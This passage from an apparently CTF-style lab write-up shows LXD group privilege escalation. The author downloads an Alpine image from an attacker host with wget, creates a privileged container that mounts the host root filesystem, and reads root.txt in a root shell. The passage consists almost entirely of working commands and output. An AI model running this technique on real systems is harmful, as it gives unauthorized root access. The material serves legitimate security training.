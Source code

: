 Back on the victim machine, I use wget to download the file.

```highlight
john@exploitable:~$ cd /tmp
john@exploitable:/tmp$ wget http://10.8.21.217/alpine-v3.12-x86_64-20200906_1552.tar.gz
--2020-09-06 14:55:47--  http://10.8.21.217/alpine-v3.12-x86_64-20200906_1552.tar.gz
Connecting to 10.8.21.217:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3109382 (3.0M) [application/gzip]
Saving to: ‘alpine-v3.12-x86_64-20200906_1552.tar.gz’

alpine-v3.12-x86_64-20200906_1552.tar 100%[========================================================================>]   2.96M  1.01MB/s    in 2.9s

2020-09-06 14:55:50 (1.01 MB/s) - ‘alpine-v3.12-x86_64-20200906_1552.tar.gz’ saved [3109382/3109382]

john@exploitable:/tmp$ 
```

Still following the steps from the article, I import the image and run, mounting the root file system.

```highlight
john@exploitable:/tmp$ lxc image import ./alpine-v3.12-x86_64-20200906_1552.tar.gz --alias myimage
Image imported with fingerprint: 4397c7dce96e22e14f6c108eebaeb629f21273dd5a7791754ad0a082c026b09c
john@exploitable:/tmp$ lxc image list
+---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE         |
+---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
| myimage | 4397c7dce96e | no     | alpine v3.12 (20200906_15:52) | x86_64 | 2.97MB | Sep 6, 2020 at 2:56pm (UTC) |
+---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
john@exploitable:/tmp$ lxc init myimage ignite -c security.privileged=true
Creating ignite
john@exploitable:/tmp$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to ignite
john@exploitable:/tmp$ lxc start ignite
john@exploitable:/tmp$ lxc exec ignite /bin/sh
id~ # id
uid=0(root) gid=0(root)
~ # cd /mnt/root/root/
/mnt/root/root # ls
root.txt
/mnt/root/root # cat root.txt 
2e337b8c9f3a{{REDACTED}}
/mnt/root/root # 
```
